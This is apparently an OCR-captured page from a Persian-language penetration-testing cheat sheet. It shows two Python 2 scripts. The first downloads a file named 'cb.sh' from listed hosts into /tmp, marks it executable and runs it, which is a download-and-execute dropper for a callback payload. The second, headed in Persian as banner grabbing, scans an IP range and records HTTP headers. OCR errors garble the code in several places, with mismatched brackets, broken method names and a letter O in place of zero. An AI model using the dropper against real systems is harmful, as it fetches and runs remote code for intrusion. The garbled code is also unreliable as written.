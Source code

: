 ```text
#!/usr/bin/python
import urllib2, os

urls = [ "1 1.1.1.1","2.2.2.2"]
port = "80"
payload = "cb.sh"

for url in urls:
    u = "http://%s:%s/%s" % (url, port, payload)
    try:
        r = urllib2.urlopen(u)
        wfile = open{"/tmp/cb.sh", "wb")
        wfile.write(r.read())
        wfile. close ()
        break
    except: continue

if os.path.exists("/tmp/cb.sh"):
    os.system("chmod 700 /tmp/cb.sh")
    os. system ( "/tmp/cb. sh")
```

### دریافت بنر در python \(\* باید محدوده ip و پورت ها و میزان تاخییر آن مشخص شود\)

```text
#!/usr/bin/python
import urllib2, sys, time

from optparse import OptionParser

parser= OptionParser()
parser.add option{''-t'', dest=''iprange'',help=''target IP range, i.e.
192.168.1.1-25")
parser.add option(''-p'', dest=''port'',default=''80'',help=''port, default=BO'')
parser.add=option("-d", dest="delay",default=".5",help="delay (in seconds),
default=.5 seconds")

(opts, args) = parser.parse_args()

if opts.iprange is None:
    parser.error("you must supply an IP range")

ips = []
headers={}

octets= opts.iprange.split(' .')

start= octets[3] .split('-') [0]
stop = octets [ 3] . split ( '-' ) [ 1]

for i in range(int(start),int(stop)+1):
    ips.append('%s.%s.%s.%d' % (octets[O],octets[1] ,octets[2],i))
print '\nScanning IPs: %s\n' % (ips)

for ip in ips:
    try:
        response= urllib2.urlopen('http://%s:%s' % (ip,opts.port))
        headers[ip] = dict(response.info())
    except Exception as e:
        headers[ip] = "Error: " + str(e)
        
time.sleep(float(opts.delay))
```